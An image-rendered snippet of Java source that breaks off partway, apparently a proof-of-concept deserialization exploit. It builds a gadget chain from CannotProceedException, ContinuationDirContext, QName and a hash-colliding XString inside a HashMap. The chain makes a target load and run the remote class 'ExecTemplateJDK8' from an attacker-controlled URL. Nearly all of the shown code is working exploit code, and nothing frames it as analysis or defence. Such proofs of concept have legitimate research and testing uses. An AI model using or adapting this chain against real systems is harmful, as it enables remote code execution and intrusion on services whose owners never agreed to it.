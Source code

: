 ```java
    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            // String with hash of Integer.MIN_VALUE, 0x80000000
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            // Find target without sign bit set
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }

    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;

        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }

    public static void main(String[] args) throws Exception {

        String remoteUrl = "http://127.0.0.1:8180/";
        String remoteClass = "ExecTemplateJDK8";
        Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationDirContext");
        Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ccCons.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        setFieldValue(cpe, "cause", null);
        setFieldValue(cpe, "stackTrace", null);

        cpe.setResolvedObj(new Reference("Foo", remoteClass, remoteUrl));

        setFieldValue(cpe, "suppressedExceptions", null);
        DirContext ctx = (DirContext) ccCons.newInstance(cpe, new Hashtable<>());
        QName qName = new QName(ctx, "foo", "bar");

        String unhash = unhash(qName.hashCode());
        XString xString = new XString(unhash);

        HashMap<Object, Object> hashMap = new HashMap<>();
        setFieldValue(hashMap, "size", 2);
        Class<?> nodeC;
        try {
```
